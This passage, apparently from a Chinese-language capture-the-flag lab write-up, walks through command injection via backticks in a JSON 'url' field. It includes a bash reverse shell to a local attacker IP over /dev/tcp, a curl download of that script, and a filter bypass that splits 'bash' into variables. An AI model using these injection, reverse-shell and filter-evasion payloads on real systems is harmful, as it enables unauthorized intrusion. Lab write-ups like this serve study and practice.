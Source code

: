 所以在`burp`上再测试，发现直接在引号内输入`;id`是不行的，可能在某些符合内吧。想到可以使用反引号 ` `` `这个可以执行的

```shell
"url":"127.0.0.1:80;`id`",
"secret_key":"commandexecutionissecret"
```

![](./pic-snakeoil/37.jpg)

相当于可以命令执行，并且这个返回其实可以搞掉，因为是正确的返回，那么直接给它`2>/dev/null`。

反正大差不差，直接命令执行一个反弹`shell`进行测试，直接搞命令不行，感觉可能有过滤等情况发生，那么直接在`kali`中创建一个脚本`shell.sh`，代码如下

```shell
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
```

然后通过这个把其下载，根据`curl`的命令，加上`-O`参数即可，这里也测试过`php`文件，但是对`php`进行关键字处理了

![](./pic-snakeoil/38.jpg)

想办法执行执行这个脚本，测试过，命令执行不能有空格，也就是单个命令可以

经过测试，对关键字`bash`进行了筛选，不能直接有`bash`出现

所以需要进行拼接

```shell
"http://192.168.10.6:8888/shell.sh -O;`a='bas';b='h';$a$b shell.sh`",
```

